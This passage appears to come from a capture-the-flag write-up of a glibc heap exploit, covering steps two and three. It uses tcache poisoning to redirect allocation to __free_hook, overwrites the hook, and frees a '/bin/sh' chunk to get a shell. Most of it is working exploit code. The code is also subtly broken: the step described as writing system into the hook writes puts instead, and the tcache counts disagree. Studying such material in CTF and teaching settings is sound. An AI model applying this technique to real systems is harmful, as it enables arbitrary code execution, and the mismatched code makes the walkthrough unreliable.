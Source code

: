 

# Step-2: Cover fd of the Chunk in Tcache into`__free_hook`

1. 首先恢复前面改的small bin里的chunk的size
2. 为调试方便，再从tcache(0x220)中malloc一个520大小的chunk
3. free掉手上的两个chunk，此时tcache(0x220)size=7 -> chunk(deadbeef1111) -> chunk(deadbeef0000) -> ...
4. 从tcache中拿出一个chunk，通过edit修改tcache 1st chunk的fd，使其指向__free_hook

此时`tcache(0x220) -> chunk(deadbeef0000) -> __free_hook`

```python
# Step-2:  Cover fd of the Chunk in Tcache into`__free_hook`
# recover size of chunk in small bin to 0x221 (display in heap bins is 0x220)
edit(0, b"deadbeef0000".ljust(208, b'B').ljust(0x238, b'\x00') + p64(0x221))  # 520=0x208

create(520, b"deadbeef1111".ljust(512, b'b'))  # tcache(0x220) size=5 # this chunk is in idx=0 now


delete(1)  # delete chunk(deadbeef0000) # tcache(0x220) -> chunk(deadbeef0000) -> ...
delete(0)  # delete chunk(deadbeef1111) # tcache(0x220) -> chunk(deadbeef1111) -> chunk(deadbeef0000) -> ...

create(520, b"deadbeef1111".ljust(520, b'b'))  # malloc back chunk(deadbeef1111) from tcache # idx=0
# tcache(0x220) -> chunk(deadbeef0000) -> ...
# cover the fd field of the 1st chunk(deadbeef0000) in tcache into __free_hook
edit(0, b"deadbeef1111".ljust(520, b'b').ljust(0x238, b'\x00') + p64(0x221) + p64(libc.symbols["__free_hook"]))
# tcache(0x220) -> chunk(deadbeef0000) -> __free_hook
```

# Step-3: Getshell

1. 先拿出tcache(0x220)的第一个chunk，使其内容为`"/bin/sh\0"`，此时tcache(0x220)的链表头指针指向`__free_hook`，根据分析，这个chunk的idx=1
2. 再malloc一次，拿到`__free_hook`的地址，并修改其值为`libc.symbols["system"]`
3. delete(1)，触发`__free_hook`，调用`system("/bin/sh")`

```python
# Step-3: Getshell
create(520, "/bin/sh\0")  # get 1st chunk(deadbeef0000) in tcache # idx=1
# tcache(0x220) -> __free_hook
create(520, p64(libc.symbols["puts"]))  # system # get __free_hook's addr and modify __free_hook to system
# this chunk's addr is __free_hook # __free_hook's value = libc.symbols["system"]
delete(1)  # "/bin/sh\0" chunk'idx=1 # equal to call system("/bin/sh")
# trriger __free_hook: system("/bin/sh")
```

